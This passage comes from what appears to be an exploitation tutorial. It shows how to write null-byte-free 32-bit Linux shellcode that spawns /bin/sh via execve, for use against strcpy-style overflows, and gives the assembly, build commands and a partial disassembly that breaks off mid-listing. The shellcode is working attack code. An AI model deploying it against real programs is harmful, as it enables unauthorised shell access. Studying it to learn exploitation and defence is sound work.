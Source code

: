If we take a look at the generated machine code with `objdump -D shell`, it appears that our binary is quite large and it **also includes many null bytes `0x00`**.
Often, our shellcode cannot include null bytes, because the vulnerability is often in string functions, like in this case.
For example, `strcpy` terminates on a null byte.

Also, null bytes behave differently in many other cases.

As a result, we need to write the above functionality without null bytes.
We could get the following 32-bit assembly:
```assembly
global _start

section .text
_start:

xor eax, eax ; Generate Zeros
push eax ; Zero to stack
push 0x68732f6e ;
push 0x69622f2f ; //bin/sh to stack as reversed (hs/nib//)



mov ebx, esp ; Make EBX point to //bin/sh on the Stack using ESP

; PUSH 0x00000000 using EAX and point EDX to it using ESP

push eax
mov edx, esp

; PUSH Address of //bin/sh on the Stack and make ECX point to it using ESP

push ebx
mov ecx, esp

; EAX = 0, Let's move 11 into AL to avoid nulls in the Shellcode

mov al, 11
int 0x80
```
We can compile and link it as a 32-bit binary.

```bash
nasm -f elf32 shell.asm
ld  -m elf_i386 shell.o -o shell
```

Now if you check the machine code with `objdump -D shell`, you can see that it is free from null bytes, and it only has `_start` section.

```assembly
objdump -D shell

shell:     file format elf32-i386


Disassembly of section .text:

08049000 <_start>:
 8049000:       31 c0                   xor    %eax,%eax
 8049002:       50                      push   %eax
 8049003:       68 6e 2f 73 68          push   $0x68732f6e
 8049008:       68 2f 2f 62 69          push   $0x69622f2f
 804900d:       89 e3                   mov    %esp,%ebx
 804900f:       50                      push   %eax
 8049010:       89 e2                   mov    %esp,%edx
 8049012:       53                      push   %ebx
```